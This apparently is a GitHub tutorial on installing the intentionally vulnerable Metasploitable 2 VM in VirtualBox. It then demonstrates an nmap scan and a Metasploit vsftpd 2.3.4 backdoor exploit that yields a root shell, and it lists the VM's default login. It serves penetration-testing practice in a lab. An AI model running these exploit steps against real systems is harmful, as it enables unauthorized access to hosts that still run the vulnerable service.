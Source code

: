 # Walkthrough-Install-Metasploitable2-Virtual-Machine
<p><h2>How to install Metasploitable 2 in VirtualBox</h2></p>

Let’s first discuss what Metasploitable is, it is a testing environment that is very useful for beginner who wants to practice and test their penetration testing skills and security research. It is a target machine that is used to discover and penetrate vulnerabilities so that the user gets an idea of real-life targets and machines.
In other words, Metasploitable is a virtual machine intentionally vulnerable version of Ubuntu designed for testing security tools and demonstrating common vulnerabilities.
To install this virtual machine in your virtual box, We assume that you have a virtual box installed on your system.
<p><strong>Installation</strong></p>
<p><strong>Step 1:</p></strong>  Download the Metasploitable 2 file.

 <img src="
 
 
Step 2: The file initially will be in zip format so we need to extract it, after extracting the file open VirtualBox.
 
 
Step 3: Now as shown in the above image click on the new option in the Virtual box.
 
 
•	now a window will pop up and you will be asked to provide some details like the name of your machine, installation path, type, and version.
•	fill in the details like:
Name: as per your choice
Path: leave as recommended
Type: Linux
Version: other (64-bit)
 
 
Step 4: Select the RAM you want to provide to the virtual machine. recommended (512Mb).
 
 
Step 5: Now choose the option to use an existing virtual hard disk file.
 
 
•	Now locate the file that we have extracted.
Step 6: Now save the file and you will see that the instance is created with the name you have given.
 
 
•	We are good to go with the machine just press the start button from the top and wait for it to start and load the instance.
 
 
Step 7. once the instance is loaded you will be asked to provide a login name and password. By default the credentials are :
Default login: msfadmin
Default password: msfadmin
 
 
•	once you log in with credentials you will be directed to the machine and we are done with the installation process.
Demo of penetration testing with Metasploitable 2
Step 1: open your both machines Metasploitable 2 and kali Linux side by side.
•	First, we need to run both instances at the same time side by side so that we will be able to see the changes clearly. launch Vbox and start both Linux and Metasploitable 2 side by side.
 
 
Step 2: let’s check the IP addresses of both machines to get an overview of the target machine.
•	now let’s open the terminal and check for the IP address of Metasploitable 2 on which we are going to perform the attack. use the following command:
msfadmin@metasploitable:~$ ifconfig
•	from the above image, we can see that we have an IP address i.e. 192.168.10.5 of the target machine.
Step 3: now we will be performing a network scan with the help of the Nmap tool to see what services are running on target and which are way into the target.
•	now the first step is to look for loops and vulnerabilities so that we can exploit the machine, to do so we will use Nmap scan on a Linux terminal. use command:
root-user-#/ $ nmap -sV -O 192.168.10.5
 
 
•	in the above command -sV is used for getting the versions of services running on the target machine and -O is used to detect the operating system on the target machine.
•	now we can see that we have so many exploitations ways and vulnerabilities to perform, we will be using the vsftpd_234_backdoor exploit, for exploitation and gaining access to the machine.
•	open Metasploit Framework with the command:
Step 4:  Now that we have all the info related to the exploit that we need to use i.e. vsftpd_backdoor so now we can use Metasploit to exploit the machine and get access to the command shell. which will eventually give us access to the target machine.
•	start the Metasploit Framework by the command mentioned below:
root-user-#/ $ msfconsole
•	after following the commands, we are going to choose the exploit that is vsftpd_backdoor and then set Rhost (targeted IP).
Step 5: Now all we need to do is deploy the exploit into the target machine with the help of msfconsole, to do so we need to follow some basic steps that are:
•	first, let’s select the exploit that we are going to use in this case it is vsftpd_backdoor, so we will use the following command :
msf6~/ use exploit/unix/ftp/vsftpd_234_backdoor
•	after selecting the above exploit let’s set up the target to which we are deploying the exploit.
msf6~/ (unix/ftp/vsftpd_234_backdoor): show options
 
 
•	now we can see that we have the option to set RHOST which is the receiver host. so we will set it to the IP address of the target machine.
msf6~/ (unix/ftp/vsftpd_234_backdoor): set RHOST 192.168.10.5
Step 6: The final step is to run the exploit, by command exploit.
msf6~/ (unix/ftp/vsftpd_234_backdoor): exploit
•	after setting RHOST just enter the exploit command and you will see the command shell of the target machine is obtained.
 
 
•	now we have successfully penetrated the target by obtaining a shell, you can try commands and verify in both machines at the same time. 
Step 7: Verify by using some command shell commands like print the working directory or ls items in a folder.
pwd, ls -l, ls -a etc
•	so we have successfully taken look into how Metasploitable is useful for practicing penetration testing skills.
•	we can see that both sides of the files are the same and we have root access to the machine.
Conclusion:
Metasploitable 2 is a great machine to practice and learn about penetration testing and hacking, while it comes with so many vulnerabilities and flaws that you can keep on digging and make your pen testing skills better. Currently, another version of Metasploitable is also available you can also go with that the process of configuring and installation is the same as above.
In the above article, we have learned how to install Metasploitable version 2 successfully and seen a demo of exploitation with the most famous and basic exploit that is vsftpd_backdoor, there are many more exploits and techniques to learn and practice.

